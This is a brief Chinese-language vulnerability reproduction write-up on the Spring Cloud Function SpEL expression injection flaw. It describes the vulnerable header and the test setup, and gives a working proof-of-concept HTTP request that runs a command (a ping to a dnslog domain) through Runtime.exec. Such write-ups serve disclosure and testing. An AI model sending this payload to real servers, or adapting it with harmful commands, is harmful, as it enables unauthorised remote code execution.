 # Spring Cloud Function SPEL 远程命令执行漏洞

## 漏洞描述

Spring Cloud Function 是基于Spring Boot 的函数计算框架，它抽象出所有传输细节和基础架构，允许开发人员保留所有熟悉的工具和流程，并专注于业务逻辑。 由于Spring Cloud Function中RoutingFunction类的apply方法将请求头中的“spring.cloud.function.routing-expression”参数作为Spel表达式进行处理，造成了Spel表达式注入漏洞，未经授权的远程攻击者可利用该漏洞执行任意代码。

## 漏洞影响

<a-checkbox checked>Spring Cloud Function </a-checkbox></br>

## 环境搭建

```php
https://github.com/spring-cloud/spring-cloud-function/tree/main/spring-cloud-function-samples/function-sample-pojo
```

## 漏洞复现

搭建后访问

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648445963507-0e8edf45-ca97-444a-b9f2-6e1ce7a1c838.png)

发送POC

```php
POST /functionRouter HTTP/1.1
Host: 192.168.1.27:9000
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("ping -c 1 dxytoy.dnslog.cn")
Content-Length: 1
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1648446987819-85f1a250-ed53-4794-9168-286030887cc4.png)